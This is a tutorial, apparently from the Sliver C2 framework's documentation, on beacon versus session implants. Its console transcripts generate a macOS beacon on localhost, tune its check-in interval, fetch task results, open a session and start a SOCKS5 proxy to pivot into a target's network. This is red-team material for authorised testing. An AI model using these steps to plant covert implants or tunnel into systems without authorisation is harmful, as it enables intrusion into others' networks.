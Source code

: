 # Beacons vs Sessions

Sliver implants support two types of connections, sessions and beacons.

Sessions use long-poling connections, which means they use a single TCP connection which is constantly open. Beacons on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.

Typically during an engagement you will want to deploy a beacon on the target system, and switch to a session while doing more active enumeration activities.

Let’s start with generating and deploying a beacon using `http`.

```bash
[server] sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

[server] sliver > generate beacon -b localhost --skip-symbols --debug --os macos

[*] Generating new darwin/amd64 beacon implant binary (1m0s)
[*] Build completed in 4s
[*] Implant saved to /Users/tester/tools/TIRED_GIRAFFE

[*] Beacon 942c647c TIRED_GIRAFFE - 127.0.0.1:51803 (tester.local) - darwin/amd64 - Wed, 19 Apr 2023 01:14:21 CEST
```

You can see the beacon callback times either in the `info` command or using `beacons watch`.

```bash
[server] sliver > beacons watch

 ID         Name            Transport   Username          Operating System   Last Check-In   Next Check-In
========== =============== =========== ================= ================== =============== ===============
 942c647c   TIRED_GIRAFFE   http(s)     tester   darwin/amd64       52s             12s

```

Beacon callback times and jitter can be set either during generation or on the fly using the `reconfig` command. You can also modify the default values in the sliver http c2 configuration in `.sliver/configs/http-c2.json`. 

The example below sets the callback time to 5s with a 1s jitter.

```bash
[server] sliver (TIRED_GIRAFFE) > reconfig -i 5s -j 1s

[*] Tasked beacon TIRED_GIRAFFE (b8aa6fd8)

[+] TIRED_GIRAFFE completed task b8aa6fd8

[*] Reconfigured beacon

[server] sliver (TIRED_GIRAFFE) > info

         Beacon ID: 942c647c-8409-4877-9fa2-b84a7f27ad45
              Name: TIRED_GIRAFFE
          Hostname: tester.local
              UUID: c6de1a44-016a-5fbe-b76a-da56af41316d
          Username: tester
               UID: 501
               GID: 20
               PID: 55879
                OS: darwin
           Version:
            Locale:
              Arch: amd64
         Active C2: https://127.0.0.1
    Remote Address: 127.0.0.1:51803
         Proxy URL:
          Interval: 1m0s
            Jitter: 30s
     First Contact: Wed Apr 19 01:14:21 CEST 2023 (10m30s ago)
      Last Checkin: Wed Apr 19 01:18:20 CEST 2023 (6m31s ago)
      Next Checkin: Wed Apr 19 01:19:46 CEST 2023 (5m5s ago)
```

Commands issued for beacons can be viewed using `tasks`, the task state will indicate wether the command has completed or not.  The results of previously run tasks can be viewed using `tasks fetch`.

```bash
[server] sliver > use

? Select a session or beacon: BEACON  5d38eba7  TIRED_GIRAFFE   127.0.0.1:50224  tester.local  tester  darwin/amd64
[*] Active beacon TIRED_GIRAFFE (5d38eba7-3166-47b4-8bdc-757f92bfe2d5)

[server] sliver (TIRED_GIRAFFE) > pwd

[*] Tasked beacon TIRED_GIRAFFE (f26b9928)

[server] sliver (TIRED_GIRAFFE) > tasks

 ID         State     Message Type   Created                          Sent   Completed
========== ========= ============== ================================ ====== ===========
 f26b9928   pending   Pwd            Thu, 20 Apr 2023 23:48:27 CEST

[+] TIRED_GIRAFFE completed task f26b9928

[*] /Users/tester

[server] sliver (TIRED_GIRAFFE) > tasks fetch

+------------------------------------------------------+
| Beacon Task   | f26b9928-9807-4c33-8acd-0b9cbf46b3e7 |
+---------------+--------------------------------------+
| State         | ✅ Completed                         |
| Description   | PwdReq                               |
| Created       | Thu, 20 Apr 2023 23:48:27 CEST       |
| Sent          | Thu, 20 Apr 2023 23:49:24 CEST       |
| Completed     | Thu, 20 Apr 2023 23:49:24 CEST       |
| Request Size  | 15 B                                 |
| Response Size | 30 B                                 |
+------------------------------------------------------+

[*] /Users/tester
```

Session can be spun up using the `interractive` command.

```bash
[server] sliver (TIRED_GIRAFFE) > interactive

[*] Using beacon's active C2 endpoint: https://127.0.0.1
[*] Tasked beacon TIRED_GIRAFFE (c963101c)

[*] Session 131a60b9 TIRED_GIRAFFE - 127.0.0.1:51969 (tester.local) - darwin/amd64 - Wed, 19 Apr 2023 01:27:27 CEST

[server] sliver (TIRED_GIRAFFE) > sessions

 ID         Transport   Remote Address    Hostname                 Username          Operating System   Health
========== =========== ================= ======================== ================= ================== =========
 131a60b9   http(s)     127.0.0.1:51969   tester.local   tester   darwin/amd64       [ALIVE]
```

Because of the differences between sessions and beacons, certain commands like `upload` or `download` are slower on beacons due to the callback time. Others such as socks5 are not supported and only allowed for sessions. As a rule of thumb anything requiring higher network bandwith should be run from a session.

Let’s switch to our newly created session and spin-up a `socks5` proxy.

```bash
[server] sliver (TIRED_GIRAFFE) > use

? Select a session or beacon: SESSION  131a60b9  TIRED_GIRAFFE  127.0.0.1:51969  tester.local  tester  darwin/amd64
[*] Active session TIRED_GIRAFFE (131a60b9-db4f-4913-9064-18a17a0f09ab)

[server] sliver (TIRED_GIRAFFE) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

You can then point your browser to port 1081 to tunnel traffic through the implant to your target’s local network.

Try out some of the previous commands and compare behaviour on beacons and sessions. Once you are done, you should remember to close your session using the `close` command.
